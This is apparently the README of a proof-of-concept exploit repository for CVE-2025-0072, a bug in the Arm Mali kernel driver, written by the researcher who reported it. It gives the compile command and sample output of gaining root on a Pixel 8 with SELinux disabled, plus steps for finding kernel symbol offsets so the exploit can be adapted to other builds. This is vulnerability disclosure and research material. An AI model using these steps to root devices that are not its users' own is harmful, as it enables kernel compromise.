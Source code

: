 ## Exploit for CVE-2025-0072

The write up can be found [here](https://github.blog/security/vulnerability-research/bypassing-mte-with-cve-2025-0072). This is a bug in the Arm Mali kernel driver that I reported in December 2024. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 8 with the November 2024 patch (`AP3A.241105.007`). It needs to be compiled with OpenCL and linked with the OpenCL library `libGLES_mali.so`. The library can be found in a Pixel 8 device in `vendor/lib64/egl/libGLES_mali.so` and the OpenCL header files can be found in the KhronosGroup's [OpenCL-headers repository](https://github.com/KhronosGroup/OpenCL-Headers). The specific header that I used was the [v2023.04.17](https://github.com/KhronosGroup/OpenCL-Headers/releases/tag/v2023.04.17) version, although other versions should also work. For reference, I used the following command to compile with clang in ndk-26:

```
android-ndk-r26b/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android34-clang -DSHELL -DCL_TARGET_OPENCL_VERSION=300 -I. -L. mali_userio.c mem_read_write.c mempool_utils.c -lGLES_mali -o mali_userio
```

The exploit needs to be linked to `libGLES_mali.so`. This can be done by setting the `LD_LIBRARY_PATH` to `/vendor/lib64/egl`. The exploit rarely fails and even if it does, it does not normally corrupt or crash the system. So in case it fails, it can be rerun. If successful, it should disable SELinux and gain root.

```
shiba:/data/local/tmp $ LD_LIBRARY_PATH=/vendor/lib64/egl ./mali_userio                                     
gpu_addr 5ffff94000
group_handle 1 cookie 30000
group_handle 1 cookie 30000
found entry 4000093deaf443 at 384 in page 0
overwrite addr : 5ffff00c60 c60
overwrite addr : 5fffb00c60 c60
overwrite addr : 5ffff00f40 f40
overwrite addr : 5fffb00f40 f40
run enforce
result 50
clean up
shiba:/ #
```

To test it with MTE enabled, follow [these instructions](https://outflux.net/blog/archives/2023/10/26/enable-mte-on-pixel-8/) to enable kernel MTE.

## References
- https://github.com/ilGobbo00/CVE-2023-6241-Pixel7_Adaptation

## TLDR;
1. Fetch img from Google
2. unmkbootimg to extract zImage
3. vmlinux2elf on zImage
4.
```bash
nm -n kernel.elf | grep avc_denied
nm -n kernel.elf | grep sel_read_enforce
nm -n kernel.elf | grep init_cred
nm -n kernel.elf | grep commit_creds
```
5. Update offsets
6. Compile
7. Exec
8. If failed, goto 7
9. !fun